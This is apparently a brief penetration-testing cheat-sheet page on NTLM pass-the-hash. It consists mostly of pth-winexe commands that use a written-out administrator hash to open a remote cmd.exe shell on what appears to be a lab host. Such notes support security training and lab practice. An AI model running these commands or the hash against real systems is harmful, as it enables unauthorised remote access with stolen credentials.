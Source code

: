 # NTLM \(Pass The Hash\)

```bash
pth-winexe -U administrator //10.10.10.63 cmd.exe
pth-winexe -U jenkins/administrator //10.10.10.63 cmd.exe

# When prompted use ntlm hash
# eg. hash = aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

pth-winexe -U jenkins/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
```

![](../.gitbook/assets/image%20%2848%29.png)

